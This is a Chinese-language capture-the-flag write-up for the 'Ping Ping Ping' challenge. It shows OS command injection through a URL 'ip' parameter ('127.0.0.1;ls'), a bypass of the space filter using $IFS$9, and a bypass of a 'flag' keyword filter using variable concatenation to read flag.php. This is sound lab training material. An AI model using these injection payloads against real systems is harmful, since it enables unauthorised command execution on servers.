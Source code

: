 # [GXYCTF2019]Ping Ping Ping

知识点:  **远程代码执行**

1. 根据提示 , url 有参数 ip

![image-20230406070045566](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230406070045566.png)



2. 可以用 `;  或者 |` 来闭合前面的命令.尝试 `ls访问:

```shell
http://a5-5a1e-4c54-acfc289.node4.buuoj.cn:81/?ip=127.0.0.1;ls
```

![image-20230406070321946](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230406070321946.png)



依次尝试了下面的方法:

 `cat flag.php`  

`cat%20%{IF}index.php`

`echo$IFSflag.php`

显示如下, 说明过滤了空格

![image-20230406070354020](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230406070354020.png)

![image-20230406070826096](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230406070826096.png)

![image-20230406071321372](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230406071321372.png)



可能还有其他过滤, 此处知道了几个过滤, 而 `空格过最为常见, 所以此处针对空格进行绕过`, 输入下方的命令, 查看 `index.ph`.

`cat$IFS$9index.php`

![image-20230406072039329](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230406072039329.png)

> 通过观察, 可以看到 `flag 这四个 字母被正则匹配并过滤掉了`

可以通过一下两种方式来查看flag.php

1. `cat$IFS%9'ls'` , 之后显示的页面还是过滤规则的页面, **右键查看源代码, 就可以看到flag 在注释里面.**

2. 还有一种方式是: `w=g;cat$IFSfla$w.php`, **也就是将 w 复制为 g**

   这样就可以如果啦

   ![image-20230406073355987](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230406073355987.png)